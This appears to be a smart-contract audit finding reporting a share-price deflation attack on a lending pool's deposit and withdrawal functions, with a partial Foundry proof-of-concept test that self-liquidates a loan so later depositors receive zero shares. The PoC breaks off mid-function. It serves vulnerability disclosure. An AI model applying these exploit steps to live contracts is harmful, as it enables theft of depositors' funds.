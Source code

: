 `LenderCommitmentGroup_Smart_test::addPrincipalToCommitmentGroup()` and `LenderCommitmentGroup_Smart_test::burnSharesToWithdrawEarnings()` are vulnerable to slippage attacks and should set slippage protection, contrarily to the claims of the protocol in the [readme](https://audits.sherlock.xyz/contests/295).

## Vulnerability Detail

The share price may be manipulated to steal funds from users adding or burning shares to the protocol. Although it is not to possible to donate funds to `LenderCommitmentGroup_Smart_test` to perform an inflation attack, the share price can still be modified by taking loans and defaulting them. The following is an example of an attack, inspired by inflation attacks but is actually a deflation attack:
1. Deposit `1e18` in `LenderCommitmentGroup_Smart_test::addPrincipalToCommitmentGroup()`.
2. Take out a loan of `1e18`.
3. Let the loan default and liquidate it, waiting some time to receive incentives and decrease the value of shares. If the attacker is able to default the loan using the max incentive, equalling the total amount borrowed, `poolTotalEstimatedValue_` will be 0.
4. If `poolTotalEstimatedValue_ == 0`, deposit in `LenderCommitmentGroup_Smart_test::addPrincipalToCommitmentGroup()` will hand out 0 shares to users.
5. The attacker will steal all deposits due to being the holder of all shares supply.

The following POC demonstrates the attack above. The test is inserted in the file pasted in issue 'Drained lender due to LenderCommitmentGroup_Smart::acceptFundsForAcceptBid() _collateralAmount by STANDARD_EXPANSION_FACTOR multiplication'.

```solidity
function test_POC_sharePriceManipulation() public {
    uint256 principalAmount = 1e18;
    deal(address(DAI), attacker, principalAmount);
    vm.startPrank(attacker);

    // add principal to lender to get shares
    DAI.approve(address(lender), principalAmount);
    uint256 shares = lender.addPrincipalToCommitmentGroup(principalAmount, attacker);

    // approve the forwarder
    tellerV2.approveMarketForwarder(marketId, address(smartCommitmentForwarder));

    // borrow the principal
    uint256 collateralAmount = 1;
    deal(address(WETH), attacker, collateralAmount);
    WETH.approve(address(collateralManager), collateralAmount);
    uint256 bidId = smartCommitmentForwarder.acceptCommitmentWithRecipient(
        address(lender),
        principalAmount,
        collateralAmount,
        0,
        address(WETH),
        attacker,
        0,
        2 days
    );

    // attacker liquidates itself, making lender have a 0 total value
    // but non 0 shares
    skip(3 days + 10000);
    deal(address(DAI), attacker, 1e18);
    DAI.approve(address(lender), 1e18);
    lender.liquidateDefaultedLoanWithIncentive(bidId, -int256(1e18));

    vm.stopPrank();

    // borrower mints 0 shares
    uint256 userDai = 1000e18;
```